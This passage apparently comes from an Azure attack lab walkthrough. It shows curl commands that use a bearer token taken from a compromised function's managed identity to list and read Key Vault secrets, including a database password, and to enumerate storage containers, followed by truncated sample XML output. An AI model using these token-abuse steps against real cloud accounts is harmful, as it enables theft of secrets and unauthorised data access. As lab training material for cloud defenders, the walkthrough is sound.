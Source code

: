 List the secrets:

```bash
export BEARER_TOKEN=<SET TOKEN VALUE>
export VAULT_NAME=cougar$TF_VAR_UniqueString
curl -s -H "Authorization: Bearer $BEARER_TOKEN" "https://$VAULT_NAME.vault.azure.net/secrets?api-version=7.0"
```

List the versions for the secret:

```bash
export COUGAR_DB_PASS=$(curl -s -H "Authorization: Bearer $BEARER_TOKEN" "https://$VAULT_NAME.vault.azure.net/secrets?api-version=7.0" | jq -r '.value[0].id' )
curl -s -H "Authorization: Bearer $BEARER_TOKEN" "$COUGAR_DB_PASS/versions?api-version=7.0"
```

Read a secret value:

```bash
export COUGAR_DB_PASS_V0=$(curl -s -H "Authorization: Bearer $BEARER_TOKEN" "$COUGAR_DB_PASS/versions?api-version=7.0" | jq -r '.value[0].id')
curl -H "Authorization: Bearer $BEARER_TOKEN" "$COUGAR_DB_PASS_V0?api-version=7.0"
```

### Azure Storage

[API Documentation](https://docs.microsoft.com/en-us/rest/api/storageservices/)

From the compromised function, request a Bearer token for the storage service:

```bash
curl -s -H "Secret: $MSI_SECRET" "$MSI_ENDPOINT?api-version=2017-09-01&resource=https://storage.azure.com/"
echo
```

List the storage account containers:

```bash
export BEARER_TOKEN=<SET TOKEN VALUE>
export STORAGE_ACCOUNT="cougarassets$TF_VAR_UniqueString"
curl -s -H "x-ms-version: 2017-11-09" -H "Authorization: Bearer $BEARER_TOKEN" "https://$STORAGE_ACCOUNT.blob.core.windows.net/?comp=list" | xmllint --format -
```

```xml
<?xml version="1.0" encoding="utf-8"?>
<EnumerationResults ServiceEndpoint="https://cougar<UNIQUE_STRING>.blob.core.windows.net/">
  <Containers>
    <Container>
      <Name>azure-webjobs-hosts</Name>
      <Properties>
        <Last-Modified>Thu, 19 Mar 2020 17:52:51 GMT</Last-Modified>
        <Etag>"0x8D7CC2E584F1AF9"</Etag>
        <LeaseStatus>unlocked</LeaseStatus>
        <LeaseState>available</LeaseState>
        <HasImmutabilityPolicy>false</HasImmutabilityPolicy>
        <HasLegalHold>false</HasLegalHold>
      </Properties>
    </Container>
    <Container>
      <Name>azure-webjobs-secrets</Name>
      <Properties>
        <Last-Modified>Thu, 19 Mar 2020 17:52:47 GMT</Last-Modified>
        <Etag>"0x8D7CC2E559F352A"</Etag>
        <LeaseStatus>unlocked</LeaseStatus>
        <LeaseState>available</LeaseState>
        <HasImmutabilityPolicy>false</HasImmutabilityPolicy>
        <HasLegalHold>false</HasLegalHold>
```